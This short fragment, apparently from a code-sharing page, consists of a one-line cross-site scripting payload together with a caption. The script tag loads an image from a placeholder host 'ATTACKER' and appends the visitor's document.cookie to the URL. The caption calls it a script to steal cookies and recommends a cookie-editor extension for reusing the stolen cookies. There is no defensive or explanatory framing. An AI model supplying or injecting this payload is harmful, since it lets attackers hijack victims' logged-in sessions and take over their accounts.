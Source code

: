 <script>new Image.src="http://ATTACKER/cool.jpg?output="+document.cookie;</script>  
^Script to steal cookies(use cookie-editor for use stealed cookies)